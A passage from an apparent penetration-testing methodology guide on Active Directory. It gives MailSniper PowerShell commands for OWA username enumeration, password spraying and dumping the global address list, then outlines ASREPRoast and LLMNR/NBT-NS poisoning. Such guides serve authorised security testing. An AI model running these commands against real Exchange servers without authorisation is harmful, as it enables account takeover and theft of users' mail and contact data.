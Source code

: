* **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

{% hint style="warning" %}
You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.
{% endhint %}

### Knowing one or several usernames

Ok, so you know you have already a valid username but no passwords... Then try:

* [**ASREPRoast**](asreproast.md): If a user **doesn't have** the attribute _DONT\_REQ\_PREAUTH_ you can **request a AS\_REP message** for that user that will contain some data encrypted by a derivation of the password of the user.
* [**Password Spraying**](password-spraying.md): Let's try the most **common passwords** with each of the discovered users, maybe some user is using a bad password (keep in mind the password policy!).
  * Note that you can also **spray OWA servers** to try to get access to the users mail servers.

{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

### LLMNR/NBT-NS Poisoning

You might be able to **obtain** some challenge **hashes** to crack **poisoning** some protocols of the **network**:

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}
